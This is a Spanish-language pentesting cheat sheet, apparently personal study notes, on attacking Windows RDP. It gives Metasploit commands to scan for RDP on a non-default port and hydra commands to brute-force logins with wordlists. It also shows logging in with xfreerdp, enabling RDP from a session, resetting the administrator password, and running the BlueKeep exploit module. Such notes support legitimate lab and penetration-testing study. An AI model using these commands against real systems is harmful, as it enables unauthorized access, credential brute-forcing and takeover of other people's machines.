 ```yaml
---
created: 2024-12-21

---
```

----------------
- tags: #windows #rdp #rce #bluekeep #metasploit 
------------

### Comprobar si esta RDP detrás de un puerto x

	msfdb run
	search rdp_scanner
	use auxiliary/scanner/rdp/rdp_scanner
	set RHOSTS x.x.x.x
	SET RPORT 3333
	run

### Fuerza bruta con hydra

	hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://x.x.x.x -s 3333

### Conectarse con xfreerdp
	xfreerdp /u:administrator /p:123456789 /v:x.x.x.x:3333

### Activarlo desde metasploit

	use post/windows/manage/enable_rdp
	set SESSION x
	exploit

(Cambiamos la contraseña del usuario administrador)

	net user administrator password123

	xfreerdp /u:administrator /p:password123 /v:x.x.x.x

## Explotar BlueKeep

	msfconsole
	seach BlueKeep
	use 1
	set RHOSTS x.x.x.x
	exploit
	show targets
	set target x
	exploit